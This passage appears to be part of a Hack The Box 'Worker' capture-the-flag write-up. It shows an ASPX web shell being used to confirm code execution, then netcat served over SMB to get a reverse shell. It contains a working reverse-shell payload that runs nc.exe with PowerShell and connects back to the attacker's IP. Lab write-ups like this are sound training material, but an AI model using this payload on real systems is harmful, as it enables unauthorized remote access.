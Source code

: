 Let us now access http://alpha.worker.htb/cmdasp.aspx to verify code-execution.

![Verifying code-execution](/assets/htb/Worker/http/code-execution.png)

We can successfully verify code-execution on the server.

### Getting a shell

We can now host nc via smb and get a reverse-shell. I am going to use my own little bash-script to start a SMB-server docker instance and host netcat. The script can be found on [my GitHub](https://github.com/chr0x6eos/smbserv).

```bash
root@darkness:~# smbserv -f /usr/share/windows-binaries/nc.exe

#####################
# Simple SMB-Server #
#    By Chr0x6eOs   #
#####################

Github: https://github.com/chr0x6eos

About:
A simple SMB-server running in docker.
By default current directory will be served.

[+] Smb-server (ID: 9ac30723656c) started!
[+] DONE! :) Container (ID: 9ac30723656c) is now running and serving...
Your files are available at:
  \\127.0.0.1\share\
  \\10.10.14.2\share\
```

We can now use the web-shell to execute netcat and get a connection back.

![Reverse-shell webshell](/assets/htb/Worker/http/get-shell.png)

We can use the payload: `\\10.10.14.2\share\nc.exe 10.10.14.2 443 -e powershell.exe` to connect to our smb-server use nc.exe to get a reverse-shell.
